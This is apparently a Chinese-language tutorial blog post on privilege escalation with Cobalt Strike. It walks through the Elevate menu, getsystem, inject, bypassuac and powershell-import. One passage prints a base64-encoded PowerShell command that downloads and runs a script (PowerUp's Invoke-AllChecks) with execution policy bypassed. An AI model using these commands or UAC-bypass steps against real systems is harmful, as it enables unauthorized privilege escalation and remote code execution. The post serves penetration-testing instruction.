




# 0x00 Elevate

在Cobalt Strike中内置了3种提权模式

1. ms14-058是一个（过时的）权限升级漏洞利用程序，可用于未打补丁的Windows 7系统提权。

2. UAC DLL是一种绕过UAC的攻击，它试图将本地管理员运行的有效负载从低权限提升到高权限。此攻击使用UAC漏洞将ArtifactKit生成的DLL复制到特权位置。此攻击适用于Windows7和Windows8及更高版本的未修补版本。

3. uac-token-duplication是另一种绕过UAC的攻击，将其从低权限提升到高权限（作为本地管理员）。这种攻击使用一个UAC漏洞，允许非提升进程使用从提升进程中窃取的令牌启动任意进程。此漏洞要求攻击删除分配给提升令牌的多个权限。此攻击适用于Windows7及更高版本。如果AlwaysNotify处于其最高设置，则此攻击要求提升的进程已在当前桌面会话中运行（作为同一用户）,此漏洞使用PowerShell生成会话。

当然这三种远远不满足我们的需求的,后面讲到脚本的导入利用。

>使用 右键目标> Access > Elevate 选择提权方法




可以看到我们的权限直接提升到system了。

Cobalt Strike更msf命令有着相识的地方 也有`getsystem`命令 可以用来提权

```
beacon> help getsystem
Use: getsystem

Attempts to get SYSTEM


[+] host called home, sent: 37 bytes
[+] received output:
nt authority\system

```

获得system权限我们运行一个system beacon 有太多种方法了，我这里就顺便配合 `inject`  命令 

```
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

Open the process and inject shellcode for the listener

```
当然也可以使用图形化的来操作

> 目标 >explore > process list




`inject`、`spawnas`、`spawn` 都可以用来进行协议切换。

# 0x01 bypass uac

用户帐户控制（User Account Control，简写作UAC)是微软公司在其Windows Vista及更高版本操作系统中采用的一种控制机制。其原理是通知用户是否对应用程序使用硬盘驱动器和系统文件授权，以达到帮助阻止恶意程序（有时也称为“恶意软件”）损坏系统的效果。


前面内置提权有三种模式其中就有uac的 命令行还有一种引用bypass uac的方法

```
beacon> help bypassuac
Use: bypassuac [listener]

Spawn a session in a high integrity process. Use this command to elevate from a
process run by an administrator, but without administrator rights to a high 
integrity process with the user's full rights. This command drops a DLL to disk,
uses a trust loophole to copy the DLL to a system folder, and executes a program
that auto-elevates to high integrity to load the DLL.

```



图中可以看到我的用户开始是 Medium Mandatory Level 权限 并且 Aleen 后面没有 `*`(表示最高权限) bypass uac后成功获得最高权限。


# 0x02 powershell

使用这个我们需要了解2个命令


```
beacon> help powershell-import
Use: powershell-import [/path/to/local/script.ps1]

Import a powershell script which is combined with future
calls to the powershell command. You may only use one
imported script at a time.
```


```
beacon> help powershell
Use: powershell [commandlet] [arguments]

Execute the command using powershell. Any cmdlets from the
last use of powershell-import are available here too.
```

powershell-import其实就是个 powershell -nop -exec bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgAzADcAMwA2ADgALwAnACkAOwAgAEkAbgB2AG8AawBlAC0AQQBsAGwAQwBoAGUAYwBrAHMA   

其中编码内容 IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:37368/'); Invoke-AllChecks 


使用 powershell-import 本地导入我们的脚本，powershell执行,官网视频导入的`PowerUp.ps1`  这个模块是个提权辅助模块具体大家可以自行搜索。





# 0x03 文末


### 本文如有错误，请及时提醒，以免误导他人